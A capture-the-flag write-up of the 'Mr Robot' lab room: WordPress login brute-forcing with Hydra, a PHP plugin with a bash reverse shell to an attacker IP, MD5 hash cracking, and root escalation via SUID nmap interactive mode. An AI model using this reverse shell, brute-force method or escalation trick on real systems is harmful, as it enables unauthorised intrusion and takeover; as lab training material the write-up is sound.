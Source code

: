 Mr Robot CTF Room

This is a CTF room, doesn’t provide any information about the target, just it’s IP.

There are 3 flags to find.

Tools used:
- Kali Linux
- nmap
- wpscan
- burp
- hydra
- hashcat
- searchsploit
- wordpress reverse shell plugin
- python
- linux shell

This flag took me quite some time with a bit of trial and error. I also had to do research during most steps and switch tools around as needed, but I got there in the end. 

1. Recon

Let’s start with a nmap port scan and go from there.

![image](https://user-images.githubusercontent.com/60744763/128162355-5e4980b5-ef3d-4da5-8da6-ba5e0b40f4ce.png)


It looks like there is a login form at /wp-login.php. 

![image](https://user-images.githubusercontent.com/60744763/128162381-8be9ac24-9cac-47c9-8f68-4685cad53d1d.png)

Opening this shows us a wordpress login page.
This might be an interesting place to start.


Next I’ll do a basic scan for wordpress vulnerabilities with wpscan

This has shown us quite a few interesting things we can delve into.

![image](https://user-images.githubusercontent.com/60744763/128162477-dc5e6394-6ba0-48f1-b9a6-c7aa81280fe4.png)



First I see the robot.txt file, lets see what this contains:

![image](https://user-images.githubusercontent.com/60744763/128162489-855c8ffa-20b7-4565-b1fa-53ce88959ca0.png)
 

This might be the location of our first flag..!?
browsing to 10.10.190.95/key-1-of-3.txt has shown us the first flag :D

Let’s see what ‘fsocity.dic’ is…
An interesting looking file, maybe passwords!?

![image](https://user-images.githubusercontent.com/60744763/128162514-61f6b155-5015-43f0-b26a-5c2b4e915b1c.png)
 

Now we can see that the WPScan has told us the wordpress version and that it is insecure.

Lets look up this version on searchspoilt…
![image](https://user-images.githubusercontent.com/60744763/128162542-70b2208f-0321-47df-b5f4-9b57f2d741df.png)
 

Some interesting options here to go through. We could try the username enumeration exploit along with the fsocity.dic file we found as a username / password combination. 

We need a username to use the exploit 41963.txt – unauth password reset, so that has to wait.
UPDATE: Coming back to this, I went to the reset password page for the username we found in a later step – and it appears the mail service is off, so this exploit is no longer an option. 

Let’s try the first exploit and see if we can get the usernames. 
I’ll copy the php exploit file to my folder, edit it with the target’s IP, run a http/php server on my kali box to launch the exploit and see what happens...

![image](https://user-images.githubusercontent.com/60744763/128162588-be7c2e29-6e1a-4e7c-a3a2-fc0b136a1731.png)

![image](https://user-images.githubusercontent.com/60744763/128162611-23ca7b61-957e-4039-ab32-8cc287b9f6dd.png)

As we can see above, the attack didn’t give us any information. 

Now I think we should try a more brutish method… 
UPDATE: in hindsight, this is a themed CTF, which would have made guessing the username quite easy ;)


I’ll go to the wordpress log in page and try some usernames / password combos.
Admin and user and mrrobot all came back with an error, invalid username.

Maybe we can brute force this to find out a user name? 
I’ll start with Burp.

![image](https://user-images.githubusercontent.com/60744763/128162665-c6f93971-2292-46c5-86f8-88016776e0e1.png)

Here we can see the post to the portal. Lets try to brute force it with the dic file we downloaded earlier… 
I’ll send this to the intruder feature of burp, we’ll select the ‘user_login’ field.

![image](https://user-images.githubusercontent.com/60744763/128162696-eee5cb1e-5a0f-479d-ad38-b08b2adde595.png)


Now load the list we downloaded earlier.
When loading the list I noticed a lot of duplicates in the dic file, so lets remove them before running the attack.

![image](https://user-images.githubusercontent.com/60744763/128162745-c047ddc5-64df-4376-9240-be54607789fa.png)


That’s much smaller now… which should speed up our attack.

Let’s load it and start a sniper attack on the username field and see what we get.

So using Burp was VERY slow, the community version warns that it is throttled, and it really is! I left it for 1 hr and it only got through about 400 attempts. Nothing interesting showing up at the moment, so I’ll try another tool – Hydra.

Using this guide, I setup a Hydra brute force to attempt to get a username.
https://olinux.net/brute-force-attack-login-form/  
We are exploiting the fact that the log in page tells us if the username is valid or not. Once we have a user name I’ll use the same process to try and crack the password. I am using the fsocity.dic file as my dictionary, but with all the duplicates removed as above.

This attack seems much faster. We have some results after a short wait.

It looks like I’ve found a username ‘Elliot’. (DUH! It’s Mr Robot!)
![image](https://user-images.githubusercontent.com/60744763/128162857-1beb225b-2f15-49f7-b05f-1082a74399c8.png)


I’ll leave this attack running in case any other user accounts are found, but in the mean time I will also start a user/pass attack with our newly found information.

Now back to burp to try the username ‘Elliot’ and see what the error is when I use a wrong password. I’ll just try ‘password’.
![image](https://user-images.githubusercontent.com/60744763/128162890-2c1a059b-7160-4e9b-a6d1-f4446f8c0310.png)



We can see the string ‘The password you entered for the username Elliot is incorrect’. That will be our error flag in the next Hydra attack.

I’ve amended our previous Hydra attack to use the username ‘Elliot’ and try passwords from our dictionary. 
Here we go!
![image](https://user-images.githubusercontent.com/60744763/128162905-6ee70216-5edc-46a6-a3fd-c3c98df1ba3d.png)



Bingo! The password was found: ER28-0652
![image](https://user-images.githubusercontent.com/60744763/128162914-2fb03155-e766-4751-abec-dadafaf9216b.png)



 

Logged in to WordPress as Elliot, now let’s play…
![image](https://user-images.githubusercontent.com/60744763/128162927-55037632-2ce7-4cbd-893f-d5df9953335c.png)


Looks like we have admin access to this portal.

![image](https://user-images.githubusercontent.com/60744763/128162954-c1304081-ed45-4c2d-91f6-1b4657829257.png)

 
Maybe we can upload a reverse shell...

Let’s try the plugins section…

We get this message about a .zip plugin, let’s try…
![image](https://user-images.githubusercontent.com/60744763/128162996-54196370-9b1a-4bcb-8bba-4fc2855eaa2a.png)

 
I found this reverse shell plugin code: https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell 


```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.4.37.95/1234 0>&1'");
?>
```

simple code, let’s save it to a php file, zip it up and upload it. Note I have updated the port and IP to point to my kali box.

While that is uploading I’ll open a nc listener on my kali box with `nc -lvnp 1234`

Plugin uploaded
![image](https://user-images.githubusercontent.com/60744763/128163087-db0b59e2-eca4-4358-8f75-2d0f6a029187.png)
 

After clicking activate plugin, my nc received a connection! ;)

AAAAANNNND we have shell!
![image](https://user-images.githubusercontent.com/60744763/128163106-71e5bbfe-57f8-42ea-bb51-69f7aa351d80.png)


Looking around on the server we can see the /home/robot folder, and in here we see a password.raw-md5 and our next flag/key!
![image](https://user-images.githubusercontent.com/60744763/128163122-236e75f6-b6e3-4493-aeb8-0b8ea54706a5.png)

 
But the key is not accessible at this point, logged in as the current user ‘daemon’.
![image](https://user-images.githubusercontent.com/60744763/128163191-54b0b4d0-7ec8-4d09-912a-dde1dd460670.png)


Let’s see what is in this password file, looks like an md5 password has for the user ‘robot’
`robot:c3fcd3d76192e4007dfb496cca67e13b`

Crack time!

Using hashcat I tried the dictionary provided by the site, this did not contain the password. 
Then I tried the ‘rockyou’ dictionary provided in kali, and it cracked in in seconds!

![image](https://user-images.githubusercontent.com/60744763/128163238-4b661e07-bd5a-4131-addd-6fb8edbb2658.png)

 
We can see the password is `abcdefghijklmnopqrstuvwxyz`
Thank goodness for copy/paste :D

Now trying to use the su command to login as a different user I get the following:
![image](https://user-images.githubusercontent.com/60744763/128163283-00957491-2ada-4142-b72e-1c6018d88d36.png)



I imagine this is because the shell is running as daemon. So let’s try upgrade the shell. 

I found this article on upgrading the shell.
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ 

In short I simply run a python script/command. Luckily we have python installed on this machine!

The command is: `python -c 'import pty; pty.spawn("/bin/bash")'`
Then I login as the user robot with `su – robot`, paste in our cracked password AND now I have a shell as the user ‘robot’!

Now I can get our 2nd key (or flag) which we saw earlier, as  we now have permissions to read the file :D
![image](https://user-images.githubusercontent.com/60744763/128163340-f86b5e94-92d8-4e50-8d28-156a721bdf70.png)
 

Now let’s see if we can get root access.

I’ll start by searching for suid based files.
![image](https://user-images.githubusercontent.com/60744763/128163385-84bd84fb-2e28-4456-9dc2-4e5f35ff6b17.png)


Nmap might be interesting, it is owned by root. 
![image](https://user-images.githubusercontent.com/60744763/128163418-1b812c80-aa07-473b-837a-cfeea0a93a9e.png)
On my ubuntu desktop the suid bit for nmap is not set so this could be a way in.


Research time! BRB
After some research, I found older versions of nmap have an ‘interactive’ terminal which allows the user to run shell commands from with-in it. It’s very simple, run `nmap --interactive` 
Then we can run commands with the `!<command>` option.
![image](https://user-images.githubusercontent.com/60744763/128163483-f211c572-eb2d-4704-a8cd-81bf73b6ba62.png)


Since the SUID bit is set, and the file is owned by root, we are have effective access root now.
We should be able to do pretty much anything we like from here.

I can even see the key in the /root folder
![image](https://user-images.githubusercontent.com/60744763/128163523-ad7a93e8-3a79-48ec-bb85-bb22a3133a63.png)
 
And we’ve got the last flag!

Let’s open a root shell for fun :D
![image](https://user-images.githubusercontent.com/60744763/128163551-9dca9821-a990-4700-8dcf-2ce92a393d04.png)
I am (g)root!
